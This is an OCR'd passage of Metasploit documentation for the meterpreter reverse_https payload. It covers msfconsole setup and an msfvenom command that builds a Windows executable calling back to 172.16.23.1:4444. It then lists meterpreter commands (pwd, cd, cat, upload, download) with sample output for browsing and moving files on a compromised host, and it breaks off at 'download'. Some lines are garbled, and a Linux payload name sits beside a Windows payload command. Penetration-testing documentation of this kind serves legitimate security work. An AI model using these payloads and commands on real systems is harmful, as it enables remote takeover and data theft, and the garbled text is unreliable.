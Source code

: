 1. In msfconsole, load the exploit.
2. Do: ```set PAYLOAD linux/x86/meterpreter/reverse_https```
3. Set the ```LHOST``` OPTION WHICH, which [IP the same the payload connect to](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-a-reverse-shell-in-Metasploit).
4. Run th exploit

**As a standalone**

To generate linux/x86/meterpreter/reverse_https, you can do this from msfvenom:

```
./msfvenom -p windows/meterpreter/reverse_https lhost=172.16.23.1 lport=4444 -f exe -o /tmp/https.exe
```

## Important Basic Commands

**pwd command**

The ```pwd``` command allows you to see the current directory you're in on the remote target.
Example:

```
meterpreter > pwd
C:\Users\sinn3r\Desktop
```

**cd command**

The ```cd``` command allows you to change directories. Example:

```
meterpreter > cd C:\\
```

**cat command**

The ```cat``` command allows you to see the content of a file:

```
meterpreter > cat data.txt
Hello World
```

**upload command**

The ```upload``` command allows you to upload a file to the remote target. For example:

```
meterpreter > upload /tmp/payload.exe C:\\Users\\sinn3r\\Desktop
[*] uploading  : /tmp/payload.exe -> C:\Users\sinn3r\Desktop
[*] uploaded   : /tmp/payload.exe -> C:\Users\sinn3r\Desktop\payload.exe
meterpreter > 
```

The ```-r``` option for the command also allows you to upload recursively.

**download command**

The ```download``` command allows you download a file from the remote target to your machine.
For example:
